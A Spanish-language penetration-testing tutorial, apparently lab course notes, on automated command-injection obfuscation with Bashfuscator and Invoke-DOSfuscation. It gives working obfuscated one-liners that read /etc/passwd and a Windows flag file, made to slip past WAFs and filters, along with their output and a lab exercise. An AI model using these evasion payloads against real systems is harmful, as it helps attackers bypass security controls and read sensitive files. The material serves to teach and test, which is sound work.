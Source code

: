 
---
# **Herramientas de Evasión en Inyección de Comandos**

Cuando enfrentamos **WAFs avanzados o filtros complejos**, las técnicas manuales de evasión pueden no ser suficientes. En estos casos, podemos utilizar herramientas de **ofuscación automatizada** que generan comandos difíciles de detectar.

---

## **1. Evasión en Linux: Bashfuscator**

**Bashfuscator** permite ofuscar comandos en Bash para evadir detección. Para instalarlo:

```bash
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
pip3 install setuptools==65
python3 setup.py install --user
```

Ejecutamos el programa desde su directorio:

```bash
cd ./bashfuscator/bin/
./bashfuscator -h
```

### **Ejemplo de ofuscación de `cat /etc/passwd`**

```bash
./bashfuscator -c 'cat /etc/passwd'
```

Salida:

```
${*/+27\[X\(} ...SNIP... ${*~}
```

Podemos ajustar los niveles de ofuscación para obtener una versión más corta:

```bash
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

Salida:

```
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
```

Probamos su ejecución:

```bash
bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'
```

Salida esperada:

```
root:x:0:0:root:/root:/bin/bash
```

Esta ofuscación permite evadir detección sin alterar la funcionalidad del comando.

### **Ejercicio**

Probar la inyección en la aplicación web **Host Checker** y analizar si el filtro lo detecta. Si es bloqueado, ajustar los parámetros de **Bashfuscator**.

---

## **2. Evasión en Windows: DOSfuscation**

**DOSfuscation** permite ofuscar comandos en Windows CMD y PowerShell.

### **Instalación**

```powershell
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
```

Dentro del menú interactivo, podemos consultar las opciones con:

```powershell
Invoke-DOSfuscation> help
```

### **Ejemplo de ofuscación de `type C:\Users\htb-student\Desktop\flag.txt`**

```powershell
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1
```

Salida ofuscada:

```
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```

Ejecutando en CMD:

```cmd
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```

Salida esperada:

```
test_flag
```

Si no se tiene acceso a una VM Windows, se puede probar en **PowerShell en Linux (`pwsh`)**.

---

## **3. Aplicaciones Prácticas**

- **Combinación con otras técnicas**: Se pueden combinar con `$IFS`, `base64`, `reversión de comandos`, etc.
- **Uso en pentesting**: Ideal para evadir detección en entornos restringidos.
- **Investigación y desarrollo de nuevos métodos**: Consultar repositorios como **PayloadsAllTheThings** para descubrir más variantes.

Estas herramientas permiten generar **comandos altamente ofuscados** que pueden **burlar filtros avanzados y WAFs** sin perder funcionalidad.